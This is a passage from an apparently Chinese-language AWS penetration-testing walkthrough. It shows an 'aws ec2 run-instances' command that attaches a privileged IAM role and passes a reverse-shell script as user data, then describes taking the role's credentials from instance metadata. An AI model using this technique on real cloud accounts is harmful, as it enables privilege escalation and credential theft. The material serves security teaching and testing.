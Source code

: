 现在，我们可以对适当的子网使用该命令。

```
aws --profile data2 ec2 run-instances --image-id ami-d05e75b8 --instance-type t1.micro --iam-instance-profile Name=danger-role --user-data file://reverseShell.sh --security-group-ids "sg-42csce3f" --subnet-id "subnet-a213as8c"
```

![](img/cd049c194b33818925edcc278a1923ef.png)

成功！几秒钟后，我们得到了反向外壳。

![](img/f00e26abbfd9d1c7151bd44ad268e1d2.png)

# 劫持角色

一旦进入实例，我们就可以从[实例元数据](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html)中快速获得与危险角色相关联的凭证。

![](img/3e38bd9b69ecc4bc2c028138ad2a2127.png)
